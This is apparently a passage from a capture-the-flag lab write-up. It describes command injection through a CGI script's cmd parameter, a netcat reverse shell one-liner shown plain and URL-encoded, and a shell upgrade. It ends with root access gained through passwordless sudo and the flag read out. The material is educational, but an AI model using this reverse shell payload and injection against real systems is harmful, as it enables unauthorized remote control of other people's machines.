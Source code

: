 
## Reverse Shell Exploitation

I crafted a reverse shell payload and URL-encoded it into the cmd parameter.

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <my-ip> 8888 > /tmp/f
```

Encoded version : 

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<my-ip>%208888%20%3E%2Ftmp%2Ff

```
Final URL :
```
https://10.10.147.92:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.23.106.242%208888%20%3E%2Ftmp%2Ff
```

Meanwhile, on my machine, I started a listener. And sure enough, I got a connection.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 8888                    
listening on [any] 8888 ...
connect to [10.23.106.242] from (UNKNOWN) [10.10.147.92] 45658
sh: 0: can't access tty; job control turned off
$ 
```
## Getting a Full Shell 

To make the shell more interactive, I upgraded it.

```
SHELL=/bin/bash script -q /dev/null
```

Now I had a fully functional shell and began exploring for privilege escalation options.

## Root Privilege Escalation and Capturing the Root Flag

I ran `sudo -l` again - this time as the `www-data` user. I could become root without needing a password. Once root, I navigated to `/root` and found the final flag:

```
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su root
sudo su root
root@ubuntu:/usr/lib/cgi-bin# cd /root
cd /root
root@ubuntu:~# ls
ls
bot.py  root.txt  snap  ssh.sh
root@ubuntu:~# cat root.txt
cat root.txt
4dbe2259ae53846441cc2479b5475c72
root@ubuntu:~# 
```